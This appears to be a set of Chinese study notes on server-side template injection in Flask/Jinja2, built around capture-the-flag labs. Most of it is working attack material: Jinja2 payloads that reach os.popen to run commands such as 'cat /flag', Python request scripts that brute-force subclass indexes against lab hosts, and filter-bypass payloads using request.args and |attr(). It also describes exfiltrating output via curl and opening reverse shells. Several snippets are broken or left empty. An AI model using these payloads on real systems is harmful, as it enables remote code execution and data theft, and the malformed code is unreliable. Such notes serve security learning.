

# SSTI服务器端模板注入

> Q：
>
> 1，该漏洞怎么扫描
>
> 2，可不可以建立一个简单的py库去做一个工具？
>
> 3，WAF具体怎么拦截这类恶意请求的
>
> 4，其他模板有哪些，又该怎么操作

https://blog.csdn.net/m0_73185293/article/details/131695528

# 0.前置 

## 模板引擎 

模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，利用模板引擎来生成前端的html代码，模板引擎会提供一套生成html代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成模板+用户数据的前端html页面，然后反馈给浏览器，呈现在用户面前

## SSTI 

SSTI就是服务器端模板注入（Server-Side Template Injection）当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的的MVC的模式，用户的输入先进入Controller控制器，然后根据请求类型和请求指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web  应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决
于模版引擎的复杂性。 这种模板请不要认为只存在于 Python 中，感觉网上讲述的都是
Python 的 SSTI ,在这之前也给了我非常大的误导(只能说自己没有好好研究，浅尝辄止)，
请记住，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是，沙盒绕过只是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者声明的模块，这适用于所有的模板引擎。

## 模块

块是 Python 中**用来封装变量、函数、类的独立代码单元**，是 `import` 导入的最小对象。

- 我们自己写的 **.py 源代码文件是模块的其中一种**；
- 除此之外还有**内置模块（C 语言实现，随解释器自带）、C 扩展模块（.so/.pyd）**，它们也是模块，但不存在对应的 `.py` 文件。 使用 `import` 语句加载模块之后，就可以调用它内部封装的功能。

## WAF防火墙


## 函数

**eval函数**：Python 内置函数，作用是**把字符串当作 Python 代码执行**：`eval(" 2 + 2") #return 4!`

**os函数**："执行 Python 代码" ≠ "执行系统命令"

SSTI 注入 `{{ }}` 只能执行 Python 层面的代码。而攻击者真正想要的往往是跑操作系统命令（`whoami`、`ipconfig` 这类）。两者之间的桥梁，就是 `os` 模块里的这两个函数：

|                                | `os.system(cmd)`                                | `os.popen(cmd)`                                    |
| ------------------------------ | ----------------------------------------------- | -------------------------------------------------- |
| 作用                           | 把命令交给操作系统执行                          | 把命令交给操作系统执行                             |
| 命令的输出                     | 直接打印到**服务器自己的控制台**，Python 拿不到 | 通过管道（pipe）返回，Python 可以用 `.read()` 读到 |
| 返回值                         | 命令的**退出状态码**（0 = 成功）                | 一个可读输出的文件对象                             |
| 攻击者能否在网页响应里看到结果 | ❌ 不能（没有回显）                              | ✅ 能（有回显）                                     |

- popen 有回显——输出能被 Python 程序拿到，攻击者可以把结果塞进 HTTP 响应里直接看到，所以"比较常用"。
- system 没有回显——输出打在服务器终端上，攻击者的浏览器看不到。但 system 照样会执行命令，所以可以用它干坏事（比如反弹 shell、删文件），只是看不到结果。
- "system 配合 curl 外带数据"——既然结果看不到，就让服务器主动把结果送出来：把命令输出拼进一个 URL，用 `curl` 去访问攻击者自己控制的服务器，攻击者翻自己服务器的访问日志就能看到数据。这叫带外传输（Out-of-Band，OOB），"外带"就是"在带外偷运出来"。

# 1.漏洞成因 

Flask 中使用了Jinja2 作为模板渲染引擎，{{}} 在Jinja2 中作为变量包裹标识在渲染的时候Jinja2会把{{}}包裹的内容进行解析

```python
from flask import Flask, request, render_template_string, render_template
'''
1. `Flask`：Flask 核心类，用来创建 web 应用实例
2. `request`：获取前端发来的请求数据（表单、参数等）
3. `render_template`：渲染**html 模板文件**（读取 templates 文件夹里的 html）
4. `render_template_string`：渲染**字符串模板**（把一段字符串直接当成 Jinja2 模板解析，漏洞根源）
'''

app = Flask(__name__)

@app.route('/')
def form():
    return render_template('form.html')          # GET 请求：展示表单页面

@app.route('/', methods=['POST'])
def get_form():
    try:
        text = request.form['text']              # 取用户提交的表单字段 text
        output = render_template_string(text)    # 把用户输入当作模板来渲染
        return render_template('form.html', submit=True, text=output)
    except Exception as e:
        return e

if __name__ == "__main__":
    app.run(debug=True)

```



1. `@app.route('/')`装饰器语法
   - 作用：绑定 URL 路径 `/`（就是网站首页）和下面这个函数
   - 默认只接收 **GET 请求**（浏览器直接访问网页就是 GET）
2. `def form():`：定义视图函数 form，访问 `/` 就执行这个函数
3. `render_template('form.html')`：去 `templates/form.html` 读取 html 文件，渲染后返回给浏览器展示（也就是那个输入表单页面）

> 💡 Flask 约定：模板 html 默认放在同级 `templates` 文件夹

## 2，常用方法

`__class__`:用于返回该对象所属的类

`__base__`:用于获取类的基类（也称父类）

`__mro__`:返回解析方法调用的顺序

`__subclasses__`:可以获取类的所有子类

## 3,常用过滤器

```python
length() # 获取一个序列或者字典的长度并将其返回
int()：# 将值转换为int类型；
float()：# 将值转换为float类型；
lower()：# 将字符串转换为小写；
upper()：# 将字符串转换为大写；
reverse()：# 反转字符串；
replace(value,old,new)： # 将value中的old替换为new
list()：# 将变量转换为列表类型；
string()：# 将变量转换成字符串类型；
join()：# 将一个序列中的参数值拼接成字符串,通常有python内置的dict()配合使用
attr(): # 获取对象的属性
```

## 4,SSTI语句构造

`{{().__class__.__base__.__subclasses__)()[127].__init__.__globals__['os'].popen('cat /flag').read()}}`

```
可以用来执行命令的类有很多，其基本原理就是遍历含有eval函数即os模块的子类，利用
这些子类中的eval函数即os模块执行命令。python的 os  模块中有system和popen这
两个函数可用来执行命令。其中system()函数执行命令是没有回显的，我们可以使用
system()函数配合curl外带数据；popen()函数执行命令有回显。所以比较常用的函数
为popen()函数，而当popen()函数被过滤掉时，可以使用system()函数代替。
```

`{{"".__class__}}`

`{{"".__class__.__base__[0]}}`或`{{"".__class__.__mro__[1]}}`或`{{"".class__.__mro__[-1]}}`

`{{"".__class__.__base__[0].__classes__()}}`

`{{"".__class__.__bases__[0].__subclasses__()}}`

```python
data = {"text" : '{{"".__class__.__bases__[0].__subclasses__()[127]. __init__.__globals__['popen']('!!:系统指令!!').read() }}'}
```

`接下来的话，就要找可利用的类，SSTI目的无非就是两个：文件读写、执行命令，因此我
们核心应该放在file类和os类。`

**OS类**

**#一定注意data语句的构造问题！” 与 ’**

```python
import requests

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/155.0.0.0 Safari/537.36 Edg/155.0.0.0'}
for i in range(500):
    print(i)
    url = "https://55abbe23c62589b8.yulinsec.cn/"
    data = {"text": '{{"".__class__.__bases__[0].__subclasses__()[' + str(i) + ']}}'}
    res = requests.post(url=url, headers=headers,data=data)
    if 'os._wrap_close' in res.text:
        print(f"HERE{i}!!!!!") #假设结果返回127,调用os._wrap_close类中的popen方法

data = {"text": "{{"".__class__.__mro__[0].__subclasses__()[127]. __init__.__globals__['popen']('!!:系统指令!!').read() }}"}
```

**__builtins__模块:**

`{{url_for. globals [' builtins ']['eval'](" import ('os').popen('cat /flag').read()")}}`

**file类**：

```
data = 
```


## 5，SSTI文件读取

使用file类读取文件的方法仅限于Python 2环境，在Python 3环境中file类已经没有了。

## 6,字符过滤

**0，过滤 {}**

YulinSec{3f2f9ea7cc2cc64fb1631388}

我们可以用 Jinja2 的 `` 语句装载一个循环控制语句来绕过:

``

```
payload = ''''''
data = {"text": payload}
```

Q：常用系统指令 py的类objections

**1,过滤了中括号[]**

```python

url = "https://c0000c0a40398324.yulinsec.cn/"
data = {"text": "{{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(127).__init__.__globals__.__getitem__('popen')('cat /flag').read()}}"}
# cat /flag    ls / 空格不要了？？
res = requests.post(url=url, headers=headers,data=data)
print(res.text)

```

**2，过滤下划线_**

藏在参数里面？？

利用request对象绕过

request.args

```python

url = "https://adc179b120dd3e43.yulinsec.cn/"
#YulinSec{e33f3dadd7f39769874dfd24}
# 带下划线的"违禁词"全部藏在 GET 参数里
params = {
    "a": "__class__",
    "b": "__mro__",
    "c": "__subclasses__",
    "d": "__init__",
    "e": "__globals__",
}
# 正文里没有一个下划线
data = {"text": "{{()[request.args.a][request.args.b][1][request.args.c]()[127][request.args.d][request.args.e]['popen']('cat /flag').read()}}"}
res = requests.post(url=url, headers=headers, params=params, data=data)
print(res.status_code)
print(res.text)

```

3，|attr() 函数绕过 . 和 [ ] 

该函数 配合其他姿势可同时绕过双下划线  、引号、点 . 和 [ 等，下面
给出示例


```python
{{().__class__.__base__.__subclasses__()[127].__init__.__globals__['os'].popen('cat /flag').read()}}

{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(127)|attr("__init__")|attr("__globals__")('os')|attr("popen")("cat /flag")|attr("read")()}}
```

